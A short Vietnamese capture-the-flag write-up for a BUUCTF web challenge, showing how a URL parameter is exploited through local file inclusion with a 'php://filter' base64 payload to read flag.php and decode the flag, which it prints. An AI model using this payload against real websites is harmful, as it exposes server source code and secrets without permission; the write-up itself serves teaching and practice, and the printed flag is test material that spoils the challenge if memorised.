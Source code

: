 Mở lên chỉ có chữ tips 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/add9ef48-742e-4a3e-ae69-b34373915511)

Truy cập vào được như sau 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/3c1ffad9-14e9-421f-b1f0-a9195878c7db)

Bài này không cho hint hay source code. Mình để ý khi truy cập vào tips thì url có thay đổi và có thể exploit được

Ta nghĩ ngay đến File inclusion/Path traversal. Mình sẽ thử payload như sau:

`?file=php://filter/convert.base64-encode/resource=flag.php`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/792a9aaf-61e5-4eb4-bf29-0e41ccc06ef4)

Sau đó ta đi decode được

```php
<?php
echo "Can you find out the flag?";
//flag{d37fe682-54b3-48c0-857a-34f76c88eefc}
```
